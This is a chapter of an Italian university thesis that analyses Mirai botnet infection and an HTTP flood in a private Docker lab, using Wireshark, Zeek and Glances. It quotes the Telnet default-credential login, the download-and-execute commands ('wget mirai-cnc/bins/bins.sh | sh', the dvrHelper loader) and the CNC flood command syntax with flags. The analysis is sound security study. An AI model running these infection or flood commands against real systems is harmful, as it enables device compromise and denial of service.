\chapter{Analisi del comportamento della botnet Mirai}
In questo capitolo verrà analizzato il comportamento della botnet Mirai all'interno del laboratorio. L'analisi è suddivisa in due sezioni principali. La prima è dedicata allo studio delle connessioni tra le componenti della botnet durante il processo di scansione e infezione effettuato dal bot-scanner, con l'obiettivo di comprendere in che modo i dispositivi vengono infettati e connessi al server CNC. La seconda sezione riguarda l'attacco condotto verso il server vittima. Poiché il servizio preso di mira è un server HTTP, l'unico vettore di attacco pertinente nel contesto del laboratorio è l'HTTP flood. Verrà quindi analizzato il traffico massivo generato dai bot e il modo in cui esso degrada la disponibilità del server vittima. L’analisi viene condotta osservando sia il traffico di rete generato sia il comportamento delle componenti coinvolte.
\section{Analisi del processo di scansione e infezione}
La fase di scansione rappresenta il punto di ingresso dei nuovi bot nella botnet. In questa sezione verrà analizzato il comportamento del bot-scanner tramite l'ausilio di Zeek e Wireshark, mettendo in evidenza i tentativi di autenticazione tramite Telnet e la procedura con cui il dispositivo compromesso scarica ed esegue il \emph{payload} stabilendo così una connessione con il server CNC. Nel contesto di questo laboratorio, questa fase inizia quando il bot-scanner scarica dal server CNC il file \texttt{scanner.py} e ne avvia l'esecuzione. Una volta eseguito il bot-scanner ha il compito di individuare nella rete i dispositivi i cui indirizzi IP sono definiti all'interno dell'array ``addresses'' nel file \texttt{scanner.py}, come già descritto nella Sezione~\ref{strumenti_di_simulazione}. A partire da queste premesse, si può ora analizzare nel dettaglio il traffico generato dalle connessioni tra il  bot-scanner e i dispositivi che, una volta infettati, diventeranno bot. Prima di avviare l'esecuzione di \texttt{scanner.py} viene avviata la cattura di rete tramite Wireshark, configurato per monitorare l'interfaccia di rete utilizzata dalla botnet. Non appena lo script \texttt{scanner.py} entra in esecuzione dall'interfaccia grafica di Wireshark è possibile notare l'indirizzo IP del bot-scanner (192.168.10.5) che tenta di stabilire una connessione Telnet verso il primo indirizzo IP presente all'interno dell'array ``addresses'' il quale è illustrato nel Listato~\ref{array_addresses}.
\begin{lstlisting}[caption={Array ``addresses'' in \texttt{scanner.py}.}, label={array_addresses}]
    addresses = ["192.168.10.6", "192.168.10.7", "192.168.10.8"]
\end{lstlisting}
Una volta che il bot-scanner ha completato il processo di infezione dei dispositivi e la cattura è stata interrotta, il file \texttt{.pcap} acquisito tramite Wireshark viene analizzato con Zeek. Quest'ultimo genera una serie di log dettagliati che descrivono le connessioni stabilite dal bot-scanner verso gli indirizzi specificati nell'array ``addresses''. Il file \texttt{conn.log} permette di comprendere con precisione quanti tentativi il bot-scanner ha effettuato prima di riuscire ad accedere via Telnet ai dispositivi bersaglio. Infatti dall'analisi del log è possibile osservare che il bot-scanner apre ripetutamente connessioni TCP sulla porta 23 (Telnet) con gli host bersagliati. Queste connessioni possono essere studiate utilizzando i campi del file \texttt{conn.log} spiegati nel dettaglio nella Sezione~\ref{tool_monitoraggio}. Infatti sfruttando il campo timestamp della prima e dell'ultima connessione Telnet stabilita con un determinato host bersaglio è possibile ricavare un intervallo temporale. Quest'ultimo viene poi impiegato per costruire un filtro da applicare alla cattura di rete in Wireshark, consentendo di isolare e analizzare nel dettaglio i pacchetti scambiati nella fase di infezione e la successiva connessione al server CNC.
\begin{lstlisting}[caption={Filtro Wireshark applicato per isolare la fase di infezione.}, label={filtroWireshark}]
    frame.time_epoch >= 1764781187.832642 &&
    frame.time_epoch < 1764781197.651803
\end{lstlisting}
Applicando il filtro mostrato nel Listato~\ref{filtroWireshark} è possibile isolare esclusivamente il traffico relativo alla fase di infezione dei bot. L'analisi dei pacchetti, filtrati in questo modo, evidenzia come, una volta stabilita la connessione sulla porta 23 (Telnet), il bot-scanner tenta l'accesso tramite una lista di credenziali predefinite contenute all'interno dell'array ``credentials'' dello script \texttt{scanner.py}. Poiché la combinazione giusta è \texttt{<admin:admin1234>} che si trova nell'indice 9 dell'array, il bot-scanner effettua nove tentativi, aprendo di conseguenza nove connessioni Telnet distinte, prima di accedere al dispositivo bersaglio. Un esempio di autenticazione Telnet fallita dal bot-scanner, estratto dall'analisi del flusso TCP effettuata con Wireshark, è mostrato nella Listato~\ref{tentativo_fallito}. I primi due messaggi sono relativi alla negoziazione delle opzioni Telnet, che viene eseguita automaticamente all'inizio di ogni connessione. I restanti sono relativi al tentativo di accesso: il dispositivo bersaglio invia il prompt di \emph{login}, il bot-scanner risponde con lo username ``admin'', mentre al prompt \emph{Password}, inviato dal dispositivo bersaglio, il bot-scanner risponde con la password sbagliata ``root''. Poiché le credenziali non sono valide, il dispositivo bersaglio chiude la connessione, costringendo il bot-scanner a tentare di nuovo l'accesso aprendo una nuova connessione.
\begin{lstlisting}[caption={Accesso fallito durante la fase di infezione.}, label={tentativo_fallito}]
    Dispositivo bersaglio:
    ............
    Bot-scanner:
    ............
    Dispositivo bersaglio:
    9a2769059702 login:
    Bot-scanner:
    admin
    Dispositivo bersaglio:
    admin
    Dipositivo bersaglio:
    Password:
    Bot-scanner:
    root
\end{lstlisting}
Dopo i tentativi di autenticazione non riusciti, il bot-scanner riesce infine a stabilire una connessione utilizzando la combinazione di credenziali corrette. Questa connessione rappresenta il vero e proprio punto di ingresso del dispositivo all'interno della botnet. Nel flusso TCP, visualizzato tramite Wireshark, è possibile osservare che, dopo la ricezione delle credenziali corrette, il dispositivo bersaglio restituisce il prompt della shell, indicando che l'autenticazione è andata a buon fine, come mostrato nel Listato~\ref{tentativo_riuscito}.
\begin{lstlisting}[caption={Accesso riuscito durante la fase di infezione.}, label={tentativo_riuscito}]
    Dispositivo bersaglio:
    ............
    Bot-scanner:
    ............
    Dispositivo bersaglio:
    9a2769059702 login:
    Bot-scanner:
    admin
    Dispositivo bersaglio:
    admin
    Dipositivo bersaglio:
    Password:
    Bot-scanner:
    admin1234
    Dispositivo bersaglio:
    Welcome to Alpine!
    The Alpine Wiki contains a large amount of how-to guides 
    and general information about administrating Alpine systems.
    See <https://wiki.alpinelinux.org/>.
    You can setup the system with the command: setup-alpine
    You may change this message by editing /etc/motd.
\end{lstlisting}
Successivamente, il bot-scanner, proseguendo l'esecuzione dello script Python \texttt{scanner.py} invia al dispositivo compromesso una serie di comandi che gli permettono di scaricare dal server CNC lo script \texttt{bins.sh} tramite wget. Vengono poi inviati anche i comandi per rendere lo script eseguibile e per avviarne l'esecuzione. Tale sequenza di comandi è visibile all'interno del flusso TCP, analizzato tramite Wireshark, come mostrato nella Listato~\ref{ultimi_comandi_bot-scanner}.
\begin{lstlisting}[caption={Comandi per download ed esecuzione di bins.sh.}, label={ultimi_comandi_bot-scanner}]
    Bot-scanner:
    wget mirai-cnc/bins/bins.sh | sh
    Dispositivo bersaglio:
    wget mirai-cnc/bins/bins.sh | sh
    Connecting to mirai-cnc (192.168.10.9:80)
    saving to 'bins.sh'

    bins.sh  100%|********************************| 268 0:00:00 ETA
    'bins.sh' saved
    Bot-scanner:
    chmod +x bins.sh
    Dispositivo bersaglio:
    chmod +x bins.sh
    Bot-scanner:
    nohup ./bins.sh
    Dipositivo bersaglio:
    nohup ./bins.sh
    nohup: appending output to nohup.out
\end{lstlisting}
L'interazione tra il server CNC e il dispositivo compromesso inizia non appena quest'ultimo scarica tramite wget lo script \texttt{bins.sh}. Come già descritto nella Sezione~\ref{strumenti_di_simulazione}, il server CNC dispone di un unico file binario, ovvero il payload malevolo, compilato tramite il cross-compiler appropriato per l'architettura dei container Docker configurati come bot. Il dispositivo compromesso scarica il payload malevolo tramite una richiesta HTTP GET, ne modifica i permessi rendendolo eseguibile ed infine ne avvia l'esecuzione come mostrato nella porzione di codice dello script \texttt{bins.sh} illustrata nel Listato~\ref{download_binario}. 
\begin{lstlisting}[caption={Istruzioni eseguite dal bot per il download del file binario.}, label={download_binario}]
    wget http://$WEBSERVER/bins/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
\end{lstlisting} 
La variabile ``WEBSERVER'' rappresenta l'indirizzo IP del server CNC mentre la variabile ``Binary'' identifica il file binario da scaricare e da eseguire. Una volta avviata l'esecuzione del file binario il dispositivo compromesso diventa a tutti gli effetti un bot in grado di ricevere comandi dal server CNC. Con l'esecuzione del payload malevolo il bot stabilisce una connessione TCP sulla porta 23 con il server CNC e, dopo la fase di \emph{three-way handshake}, la connessione viene mantenuta attiva sia mediante uno scambio periodico di 2 byte a livello applicativo sia tramite l'utilizzo di pacchetti TCP \emph{Keep-Alive}. Nel diagramma di flusso generato con Wireshark, illustrato nella Figura~\ref{mantenimento_connessione} viene mostrato il meccanismo di persistenza della connessione descritto precedentemente, infatti è possibile notare sia lo scambio periodico di pacchetti a livello applicativo sia l'utilizzo di pacchetti TCP Keep-Alive. L'indirizzo IP 192.168.10.6 identifica il bot mentre l'indirizzo 192.168.10.10 identifica il server CNC.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{tesi_stile/img/mantenimento_connessione.png}
    \caption{Diagramma di flusso del mantenimento della connessione tra bot e server CNC.}
    \label{mantenimento_connessione}
\end{figure}
Tutte le operazioni precedentemente descritte vengono ripetute anche per gli altri due bot previsti in questo laboratorio, per un totale di tre bot che il server CNC può istruire per lanciare attacchi DDoS contro il server bersaglio. Conclusa la fase di infezione e registrazione dei bot presso il server CNC, la botnet risulta pienamente operativa. Il server di comando e controllo può ora sfruttare i nodi compromessi per coordinare attacchi verso uno o più bersagli designati.

\section{Analisi della fase di attacco}
La fase di attacco costituisce il momento in cui il server CNC sfrutta le connessioni precedentemente instaurate per andare a lanciare attacchi verso il server bersaglio. In questa sezione viene esaminato nel dettaglio il processo di trasmissione e interpretazione dei comandi di attacco analizzando la struttura di questi ultimi. Inoltre viene esaminato l'effetto che l'attacco ha sul server bersaglio attraverso gli strumenti descritti nella Sezione~\ref{tool_monitoraggio}.
\subsection{Trasmissione del comando}
Il comando di attacco inviato dal server CNC ha una specifica sintassi mostrata nel Listato~\ref{sintassi_comando_attacco}, dove il vettore di attacco è uno tra quelli illustrati nella Sezione~\ref{capacità offensive}.
\begin{lstlisting}[caption={Sintassi generica di un comando di attacco in Mirai.}, label={sintassi_comando_attacco}]
    <Vettore di attacco> <Indirizzo IP della vittima/e> <durata>
\end{lstlisting} 
A questa sintassi possono essere aggiunti dei \emph{flag}, ovvero opzioni aggiuntive per condurre attacchi più mirati, specifici per ogni vettore d'attacco. Nel caso del nostro laboratorio, visto che verranno analizzati solo gli attacchi HTTP flood, i flag che possono essere aggiunti sono:
\begin{itemize}
    \item \textbf{Dominio}: il nome del dominio da attaccare, nel nostro caso verrà inserito l'indirizzo IP del server bersaglio;
    \item \textbf{Metodo}: metodo HTTP attraverso il quale i bot effettueranno l'attacco, se non immesso viene scelto automaticamente il metodo HTTP GET;
    \item \textbf{Dati inviati col metodo POST}: nel caso in cui venga scelto il metodo HTTP POST devono essere specificati anche i dati da inviare al server HTTP bersaglio;
    \item \textbf{Percorso}: percorso del server web sul quale effettuare l'attacco, se non immesso viene scelto automaticamente ``/'';
    \item \textbf{Connessioni}: indica il numero di \emph{socket} che ogni bot deve aprire contemporaneamente verso il server bersaglio, se non impostato viene scelto il valore 1, altrimenti si può arrivare fino ad un massimo di 1000 connessioni simultanee.
\end{itemize}
Dopo aver ricevuto il comando, ogni bot lo interpreta insieme agli eventuali flag, questa fase è definita all'interno del codice di Mirai come fase di \emph{parsing}, durante la quale il bot estrae i parametri rilevanti e li memorizza in una struttura interna che servirà per configurare la successiva fase di attacco. Utilizzando Wireshark è possibile intercettare i pacchetti di rete inviati dal server CNC ai bot per impartire le istruzioni di attacco. L'osservazione del pacchetto permette di identificare chiaramente la struttura del comando al fine di verificarne la corrispondenza con la sintassi sopra descritta.
\begin{lstlisting}[caption={Istruzioni per attacco di tipo HTTP flood}, label={comando_http}]
    http 192.168.10.9/24 30
\end{lstlisting}
Infatti inviando il comando mostrato nel Listato~\ref{comando_http} e analizzandone il traffico di rete generato si può notare che il server CNC manda ad ogni bot un pacchetto Telnet dal quale è possibile estrarre le informazioni che poi verranno utilizzate per inviare l'attacco al server bersaglio. Nella Figura~\ref{pacchetto_attacco_basic_esaminato} viene illustrato il pacchetto generato dall'istruzione di attacco mostrata nel Listato~\ref{comando_http}. La parte evidenziata in blu indica il campo \emph{Data}, dal quale è possibile ricavare le informazioni che ogni bot usa per lanciare l'attacco.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{tesi_stile/img/pacchetto_attacco_basic_esaminato.png}
    \caption{Pacchetto Telnet contenente l'istruzione di attacco.}
    \label{pacchetto_attacco_basic_esaminato}
\end{figure} 
Nel caso in cui il server CNC invii ai bot un comando contenente dei flag, come quello illustrato nel Listato~\ref{comando_http_esteso}, l'istruzione di base viene estesa aggiungendo, oltre ai campi obbligatori, anche dei parametri volti a specificare in modo dettagliato le caratteristiche dell'attacco. Questi parametri consentono di personalizzare il comportamento dei bot durante l’esecuzione dell’attacco, influenzando vari aspetti di quest'ultimo. In questo modo il server CNC, a parità di bot controllati, è in grado di modulare l’intensità e le modalità dell’attacco.
\begin{lstlisting}[caption={Istruzioni per attacco di tipo HTTP flood con flag.}, label={comando_http_esteso}]
    http 192.168.10.9/24 30 domain=example.com method=post conns=20
\end{lstlisting}
Una volta inviato il comando, è possibile intercettare il pacchetto Telnet derivato da questa trasmissione tramite Wireshark. Quello che si evince è che il pacchetto, rispetto a quello mostrato nella Figura~\ref{pacchetto_attacco_basic_esaminato}, presenta nel campo Data i flag aggiuntivi inviati in chiaro dal server CNC. Nella Figura~\ref{pacchetto_attacco_avan_esaminato} è illustrato il pacchetto generato dall'invio del comando mostrato nel Listato~\ref{comando_http_esteso}. La parte evidenziata in blu indica il campo Data del pacchetto.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{tesi_stile/img/pacchetto_attacco_avan_esaminato.png}
    \caption{Pacchetto Telnet contenente l'istruzione di attacco con flag.}
    \label{pacchetto_attacco_avan_esaminato}
\end{figure}
La differenza di leggibilità tra i vari campi del pacchetto è riconducibile alla diversa modalità di codifica adottata dal server CNC nella versione di Mirai utilizzata nel laboratorio. Infatti i campi come il vettore di attacco, l'indirizzo IP del bersaglio e la durata dell'attacco vengono serializzati in formato binario e inseriti nel payload del pacchetto come una sequenza di byte, mentre i campi che rappresentano i flag vengono inseriti nel payload del pacchetto in chiaro.
\subsection{Caratteristiche del traffico generato}
Una volta completata la fase di trasmissione del comando dal server CNC ai bot, ha inizio la fase di esecuzione dell'attacco vera e propria. In questa fase ogni bot dopo aver interpretato l'istruzioni ricevuta , avvia l'azione offensiva verso il bersaglio specificato, generando traffico massivo secondo i parametri definiti nell'istruzione. Infatti appena la ricevono i bot eseguono una funzione che permette loro di effettuare il parsing dell'istruzione, tramite questa operazione i bot estraggono il vettore di attacco, l'indirizzo IP del bersaglio, la durata dell'attacco e i vari flag. Una volta fatto ciò i bot eseguono l'attacco utilizzando le informazioni precedentemente ricavate, inviando un elevato numero di richieste a servizio esposto dal bersaglio, con l'obiettivo di degradarne la disponibilità. Nel caso del laboratorio realizzato, quindi utilizzando solo il vettore di attacco  HTTP flood, il traffico generato dai bot consiste nell'invio di ripetute richieste HTTP verso il server bersaglio avente indirizzo IP 192.168.10.9. L'attacco è stato quindi lanciato utilizzando il metodo HTTP GET, una durata di 240 secondi e un numero di connessioni simultanee pari al massimo consentito. Dal punto di vista dell'analisi del traffico di rete, questo attacco si traduce in una generazione simultanea di connessioni e di richieste HTTP ripetute. Questo determina un aumento significativo del volume di traffico osservato e delle connessioni stabilite. In uno scenario reale la magnitudo di un attacco di questo genere viene misurata con metriche come: \emph{Bytes per second} (Bytes/s), \emph{Packets per second} (PPS) e \emph{Request per second} (RPS) che è una metrica specifica utilizzata per gli attacchi al livello applicativo del modello OSI~\cite{metriche_DDoS}. In un contesto come quello del laboratorio realizzato, sebbene le dimensioni assolute siano di gran lunga inferiori rispetto a scenari reali, metriche di questo tipo risultano efficaci per andare a stabilire un andamento generale del traffico generato durante l'attacco HTTP flood. Per questo motivo l'analisi si è concentrata, oltre che sulle metriche precedentemente elencate, sul volume totale di byte scambiati e sulla quantità media di dati scambiati per singola connessione. Per ottenere queste metriche è stato dapprima utilizzato Wireshark per catturare il traffico di rete sull'interfaccia utilizzata dalla botnet durante l'attacco ed infine il file di cattura generato è stato fornito in input a Zeek per generare log più dettagliati. Le metriche ottenute durante l'analisi sono riportate nella Tabella~\ref{metriche_traffico}.
\begin{table}[H]
\centering
    \begin{tabular}{l r}
    \hline
    \textbf{Metrica} & \textbf{Valore} \\
    \hline
    Dati totali scambiati & $\approx4.4\ \text{GB}$ \\
    Dati medi scambiati per singola connessione & $\approx1.5\ \text{MB}$ \\
    PPS &  $\approx12232$\\
    Bytes/s & $\approx19\ \text{MB/s}$ \\
    RPS &   $\approx1622$\\
    \hline
    \end{tabular}
\caption{Metriche del traffico generato durante l’attacco HTTP flood}
\label{metriche_traffico}
\end{table}
Le metriche riportate in precedenza consentono di valutare in modo quantitativo l'intensità e le caratteristiche del traffico generato dall'attacco HTTP flood. I valori riportati nella tabella sono stati calcolati utilizzando principalmente i file \texttt{conn.log} e \texttt{http.log} prodotti da Zeek. Tali valori, seppur non significativi in termini assoluti, assumono una particolare rilevanza se rapportati ad uno scenario reale in cui il numero di dispositivi impiegati nell'attacco è nell'ordine delle centinaia di migliaia, come osservato negli attacchi messi in atto dalla botnet Mirai~\cite{info_attacchi_mirai}. Alla fine di validarne i valori, le metriche calcolate a partire dai log di Zeek sono state confrontate con l'andamento del traffico visualizzato tramite il grafico I/O generato da Wireshark. In particolare sono stati generati grafici per la visione delle seguenti metriche: PPS, Bytes/s e RPS. Nella Figura~\ref{PPS} viene mostrato un grafico che illustra l'andamento dei pacchetti al secondo (PPS) generati durante l'HTTP flood. La linea nera rappresenta il numero di pacchetti per intervallo temporale di 1 secondo in transito sulla rete con un picco di circa 23000 pacchetti al secondo. Successivamente nella Figura~\ref{Bytes/s} è riportato un grafico che illustra il \emph{throughput} di rete, espresso in \emph{megabyte} al secondo (MB/s), durante l'analisi dell'attacco HTTP flood. La linea nera rappresenta la variazione dei byte ogni intervallo temporale di 1 secondo, con un picco di 34 MB/s. Infine nella Figura~\ref{RPS} viene illustrato un grafico che mostra l'andamento dei pacchetti contenenti una richiesta HTTP GET durante l'attacco HTTP flood. In particolare la linea nera rappresenta la variazione istantanea delle richieste ogni intervallo temporale di 1 secondo, con un picco di 2800 RPS. Nei tre grafici la linea nera presenta marcate fluttuazioni tra un intervallo di campionamento e l'altro, questo è dovuto alle rapide variazioni dei valori misurati durante la cattura del traffico di rete. Per interpretare meglio i tre grafici, smussando la linea nera, è stata generata la linea rossa che rappresenta la media mobile semplice (SMA)\footnote{\url{https://www.wireshark.org/docs/wsug_html_chunked/ChStatIOGraphs.html}}, ovvero una media dei valori calcolata su una specifica finestra di tempo (\emph{SMA period}).   Si può notare come la linea rossa in tutti e tre i grafici, generata con un \emph{SMA period} pari a 200, sia coerente con quanto riportato nella Tabella~\ref{metriche_traffico}, in particolare:
\begin{itemize}
    \item nella Figura~\ref{PPS} si colloca in un intervallo compreso tra [12000, 13000] PPS;
    \item nella Figura~\ref{Bytes/s} si colloca in un intervallo compreso tra [18, 20] MB/s;
    \item nella Figura~\ref{RPS} si colloca in un intervallo compreso tra [1600, 1700] RPS.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{tesi_stile/img/PPS_tagliato.png}
    \caption{Grafico della metrica PPS durante l'attacco HTTP flood.}
    \label{PPS}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{tesi_stile/img/BytesPS_tagliato.png}
    \caption{Grafico della metrica Bytes/s durante l'attacco HTTP flood.}
    \label{Bytes/s}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{tesi_stile/img/RPS_tagliato.png}
    \caption{Grafico della metrica RPS durante l'attacco HTTP flood.}
    \label{RPS}
\end{figure}



\subsection{Effetti sul server bersaglio}
Dopo aver analizzato gli effetti dell'attacco sul traffico di rete, è ora possibile valutare gli effetti sul server bersaglio. Per effettuare queste valutazioni è stato usato Glances, un software di monitoraggio illustrato nella Sezione~\ref{tool_monitoraggio}. I valori misurati da Glances di cui si è tenuto conto sono:
\begin{itemize}
    \item \textbf{CPU}: valore che mostra l'uso della CPU sia per il sistema che per l'utente, con particolare attenzione alla componente utente. Questo perchè i processi del server che gestiscono le richieste HTTP sono eseguiti con utente e gruppo \emph{nginx}, appartenenti alla categoria \emph{user}. Viene mostrata anche la percentuale di CPU a riposo. Nella Tabella~\ref{valori_cpu} vengono illustrate le soglie predefinite di attenzione relative all'utilizzo della CPU sia da parte del sistema che dell'utente\footnote{\url{https://glances.readthedocs.io/en/latest/aoa/cpu.html}};
    \begin{table}[H]
        \centering
        \begin{tabular}{c c}
        \hline
        \textbf{CPU Sistema/Utente} & \textbf{Stato} \\
        \hline
        < 50\% & OK \\
        > 50\% & CAREFUL \\
        > 70\% &  WARNING\\
        > 90\% & CRITICAL \\
        \hline
        \end{tabular}
        \caption{Soglie di attenzione della CPU in Glances.}
        \label{valori_cpu}
    \end{table}
    \item \textbf{Load}: rappresenta la media del numero di processi pronti nella coda di esecuzione più il numero di processi attualmente in esecuzione calcolata su intervalli temporali di 1, 5 e 15 minuti. Glances utilizza il numero di core del processore per stabilire se il carico medio è nella norma oppure è eccessivo generando degli \emph{alert}. Quest'ultimi vengono generati, al superamento di alcune soglie di attenzione, solo per i valori del carico medio relativi agli intervalli temporali di 5 e 15 minuti. Nella Tabella ~\ref{valori_load} sono illustrate le soglie di attenzione per stabilire lo stato del carico medio\footnote{\url{https://glances.readthedocs.io/en/latest/aoa/load.html}};
    \begin{table}[H]
        \centering
        \begin{tabular}{c c}
        \hline
        \textbf{Carico medio} & \textbf{Stato} \\
        \hline
        < $0.7 \cdot \text{core}$ & OK \\
        > $0.7 \cdot \text{core}$ & CAREFUL \\
        > $1 \cdot \text{core}$ &  WARNING\\
        > $5 \cdot \text{core}$ & CRITICAL \\
        \hline
        \end{tabular}
        \caption{Soglie di attenzione del carico medio in Glances.}
        \label{valori_load}
    \end{table}
    \item \textbf{Network}: rappresenta la quantità di dati ricevuta e inviata su un'interfaccia di rete, quella monitorata in questo caso è quella che il server utilizza per la comunicazione con i bot.
    
\end{itemize}
